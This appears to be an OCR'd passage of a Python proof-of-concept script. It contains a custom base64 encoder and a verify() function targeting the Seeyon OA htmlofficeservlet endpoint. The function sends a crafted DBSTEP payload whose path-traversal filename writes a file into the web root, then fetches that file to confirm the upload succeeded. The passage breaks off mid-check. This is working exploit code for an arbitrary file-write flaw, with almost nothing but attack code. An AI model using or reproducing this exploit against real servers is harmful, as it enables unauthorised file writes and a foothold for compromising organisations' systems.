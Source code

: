 ```
    nums = len(base64_bytes) // 3
    remain = len(base64_bytes) % 3

    integral_part = base64_bytes[0:3 * nums]
    while integral_part:
        # 取三个字节，以每6比特，转换为4个整数
        tmp_unit = ''.join(integral_part[0:3])
        tmp_unit = [int(tmp_unit[x: x + 6], 2) for x in [0, 6, 12, 18]]
        # 取对应base64字符
        resp += ''.join([base64_charset[i] for i in tmp_unit])
        integral_part = integral_part[3:]

    if remain:
        # 补齐三个字节，每个字节补充 0000 0000
        remain_part = ''.join(base64_bytes[3 * nums:]) + (3 - remain) * '0' * 8
        # 取三个字节，以每6比特，转换为4个整数
        # 剩余1字节可构造2个base64字符，补充==；剩余2字节可构造3个base64字符，补充=
        tmp_unit = [int(remain_part[x: x + 6], 2) for x in [0, 6, 12, 18]][:remain + 1]
        resp += ''.join([base64_charset[i] for i in tmp_unit]) + (3 - remain) * '='

    return resp

def verify(arg):
    url = arg + "/seeyon/htmlofficeservlet"
    tmp_random_str = ''.join(random.sample(string.letters+string.digits, 10))
    headers = {
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close",
        "Content-Length": "429",
    }
    file_name = encode('..\\..\\..\\ApacheJetspeed\\webapps\\seeyon\\shXi3GAEuT.txt')
    payload = "DBSTEP V3.0     355             0               10             DBSTEP=OKMLlKlV\r\n"
    payload += "OPTION=S3WYOSWLBSGr\r\n"
    payload += "currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66\r\n"
    payload += "CREATEDATE=wUghPB3szB3Xwg66\r\n"
    payload += "RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6\r\n"
    payload += "originalFileId=wV66\r\n"
    payload += "originalCreateDate=wUghPB3szB3Xwg66\r\n"
    payload += "FILENAME={}\r\n".format(file_name)
    payload += "needReadFile=yRWZdAS6\r\n"
    payload += "originalCreateDate=wLSGP4oEzLKAz4=iz=66\r\n"
    payload += "a{}".format(tmp_random_str)

    try:
        requests.post(url=url, data=payload, headers=headers)
        
        upfile_url = arg+"/seeyon/shXi3GAEuT.txt"
        time.sleep(2)
        resp = requests.get(url=upfile_url)
        code = resp.status_code
        content = resp.text
    except Exception as e:
        # print str(e)
        pass
    else:
        if code==200 and tmp_random_str[1:] in content:
```